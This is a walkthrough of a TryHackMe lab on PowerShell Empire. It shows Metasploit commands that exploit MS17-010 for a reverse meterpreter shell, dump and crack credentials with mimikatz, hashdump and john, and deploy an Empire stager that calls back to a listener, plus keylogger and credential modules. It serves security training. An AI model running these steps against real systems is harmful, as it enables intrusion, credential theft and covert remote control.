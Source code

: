 Website [URL](https://tryhackme.com/room/rppsempire)

Powershell Empire? This is a command and control server. This can also be another reverse shell method

# Enum
want to use `msfconsole` for this whole thing

lets begin by starting the database
```bash
sudo msfdb init
msfconsole -q
```

next we will do an nmap scan
```bash
db_nmap -A --script vuln -vv -oA Empire 10.10.159.89
```

now that we have data inside our database we can check the open ports and services on the host. as well as vulnerabilities
```bash
services
hosts
vulns
```

based on the nmap script, this is vulnerable to MS17-010. lets run a checker
```bash
search ms17-010
use 3
options
set rhosts 10.10.159.89
exploit
```

looks like it is so lets use the proper payload now
```bash
search ms17-010
use 0
options
set rhosts 10.10.159.89
set lhost tun0
exploit
```

NOTE: we can use [AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010) if metasploit keeps failing
we get a reverse meterpreter shell since we didnt change the payload. we can do a couple of things here
```bash
getuid
sysinfo
load kiwi #loads mimikatz
creds_all #dumps creds
hashdump  #dumps hashes
```

we can crack the password
```bash
john empire.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

lets now use Powershell Empire as intended. we can get it from [here](https://github.com/BC-SECURITY/Empire)
```bash
cd /opt
git clone https://github.com/BC-SECURITY/Empire
cd Empire
./setup/install.sh
```

lets also install the GUI version called [Starkiller](https://github.com/BC-SECURITY/Starkiller/releases)
```bash
chmod +x starkiller.AppImage
```

now lets start both Empire and Starkiller
```bash
./ps-empire server
./starkiller.AppImage
URL: localhost:1337
User: empireadmin
Pass: password123
```

in Starkiller, lets create a listener
+ create listener
+ type: http
+ host: myMachineIP
+ port: myMachinePort

lets also create a stager
+ create stager
+ type: windows/launcher_bat
+ listener: oneMadeFromAbove

once that was created i downloaded the stager and uploaded to the remote machine using meterpreter
```bash
upload ~/Documents/launcher.bat
```

we could have also used `wget` or `curl` or a different route to get the batch file into the remote machine

once uploaded, i just entered shell and ran the batch script. check Starkiller for agent callback
```bash
shell
launcher.bat
```

now that we have an agent we can run all sorts of commands and modules. lets take a look at a few modules
+ powershell/credentials/mimikatz/command
+ powershell/collection/keylogger
+ powershell/privesc/winPEAS
+ powershell/trollsploit/voicetroll

we can also add new plugins to Empire
simply download and transfer a plugin.py file to the /plugins directory of Empire
```bash
./ps-empire server
plugin <pluginName>
start <pluginName>
stop <pluginName>
```